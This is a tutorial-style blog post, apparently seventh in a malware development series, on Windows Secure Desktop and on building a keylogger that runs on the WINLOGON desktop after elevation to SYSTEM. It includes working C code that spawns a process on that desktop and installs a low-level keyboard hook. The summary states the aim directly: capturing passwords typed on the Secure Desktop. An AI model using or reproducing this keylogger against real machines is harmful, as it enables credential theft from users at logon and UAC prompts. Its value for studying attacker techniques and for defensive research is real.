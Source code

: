 ```yaml
---
title: Malware development part 7 - Secure Desktop keylogger
layout: post
---
```


## Introduction
This is the seventh post of a series which regards the development of malicious software. In this series we will explore and try to implement multiple techniques used by malicious applications to execute code, hide from defenses and persist.  
Today we will talk about "Secure Desktop" on Windows and implement a keylogger.

## Secure Desktop
Secure Desktop is Windows feature that isolates system processes' graphical interface elements (like windows, prompts etc.). Basically it's a different desktop with access limited to system integrity processes.

If UAC is configured to use Secure Desktop (`ConsentPromptBehaviorUser = 1` and `ConsentPromptBehaviorAdmin = 1 || 2`), consent and credential prompts are presented on this desktop. This protects these prompts from malicious code running with user privileges. Also, `Winlogon` process, which handles user logon, run on this desktop.

Actually, `CreateProcess` API function allows to create a process assigned to any desktop (given the appropriate permissions are present) with `STARTUPINFO` parameter. It goes like this:

```c
STARTUPINFOA startupInfo;
ZeroMemory(&startupInfo, sizeof(startupInfo));
startupInfo.cb = sizeof(startupInfo);
PROCESS_INFORMATION processInfo;
ZeroMemory(&processInfo, sizeof(processInfo));

char desktop[] = "WINSTA0\\WINLOGON";
startupInfo.lpDesktop = desktop;

CreateProcessA(currentProcessPath, NULL, NULL, NULL, FALSE, CREATE_NEW_CONSOLE, NULL, NULL, &startupInfo, &processInfo);
```

`WINSTA0\DEFAULT` is the default desktop and `WINSTA0\WINLOGON` is the Secure Desktop.

## Keylogger
A regular keylogger running with low user privileges won't be able to access the Secure Desktop. However if we can elevate to SYSTEM, we will be able to run the keylogger code in the `WINLOGON` desktop.

Typical keylogger use `SetWindowsHookEx` API with `WH_KEYBOARD_LL` hook type which monitors low-level keyboard input events. This function sets a callback function which is called on every event, in this case every keyboard input. Also, low-level hooks use message loop, which is a feature used by windows (GUI) applications to communicate.

From information passed to the hook function we can extract key status - what key was pressed or released. `WM_SYSKEYUP` and `WM_SYSKEYDOWN` messages are posted when a key is pressed while holding `Alt` key.

```c
LRESULT CALLBACK KeyboardHook(int nCode, WPARAM wParam, LPARAM lParam)
{
	KBDLLHOOKSTRUCT kbdStruct = *((KBDLLHOOKSTRUCT*)lParam);
	int msg = 1 + (kbdStruct.scanCode << 16) + (kbdStruct.flags << 24);
	char keyName[64];
	GetKeyNameTextA(msg, keyName, 64);
	char keyState[16];
	switch (wParam)
	{
	case WM_KEYUP:
	strncpy(keyState, "Key Up\0", 16);
		break;
	case WM_KEYDOWN:
	strncpy(keyState, "Key Down\0", 16);
		break;
	case WM_SYSKEYUP:
	strncpy(keyState, "Sys Key Up\0", 16);
		break;
	case WM_SYSKEYDOWN:
	strncpy(keyState, "Sys Key Down\0", 16);
		break;
	}
	printf("Captured: %s \t %s\n", keyName, keyState);
	return CallNextHookEx(0, nCode, wParam, lParam);;
}

int main()
{
	SetWindowsHookExA(WH_KEYBOARD_LL, KeyboardHook, NULL, 0);
	while (GetMessageA(0, 0, 0, 0));
}
```

And that's about it:

![winlogon_keylogger.png](../images/2021-01-29-Malware_development_part_7/winlogon_keylogger.png)

## Summary
With admin access on a Windows machine we can run a keyloggen on `Winlogon` desktop to capture passwords on the Secure Desktop.

